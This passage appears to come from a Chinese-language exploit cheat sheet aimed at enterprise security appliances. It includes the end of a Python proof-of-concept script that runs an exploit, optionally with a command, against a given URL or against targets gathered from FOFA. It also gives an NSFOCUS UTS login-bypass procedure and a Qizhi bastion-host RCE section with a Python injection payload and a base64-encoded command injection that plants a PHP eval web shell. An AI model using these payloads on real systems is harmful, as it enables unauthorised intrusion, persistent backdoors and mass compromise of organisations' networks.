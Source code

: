     re_ = re.compile(r'[a-zA-Z]+://[^\s]*[.\w+]')

    try :

        res = re_.findall(sys.argv[1])

        poc(res[0])

    except:

        print("[-] Input url error!")

elif len(sys.argv)==3:

    re_ = re.compile(r'[a-zA-Z]+://[^\s]*[.\w+]')

    try :

        res = re_.findall(sys.argv[1])

        poc(res[0],flag=True,cmd=sys.argv[2])

    except:

        print("[-] Input url error!")

else:

    domain = getFofaAssest()

    for d in domain:

        #print(d[0])

        if ("https://" in d[0]) or ("http://" in d[0]):

            url = d[0]

        else:

            url = "http://"+d[0]

        poc(url)

4. 绿盟 UTS 绕过登录

随便输密码 -> 修改返回包为 True-> 放行 -> 等待第二次拦截包 -> 内含管理员 MD5-> 替换 MD5 登录

直接请求接口：/webapi/v1/system/accountmanage/account

5.WPS 命令执行漏洞（无）

http://zeifan.my/security/rce/heap/2020/09/03/wps-rce-heap.html

6. 齐治堡垒机 rce

POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]

https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}

7. 联软准入漏洞（无）
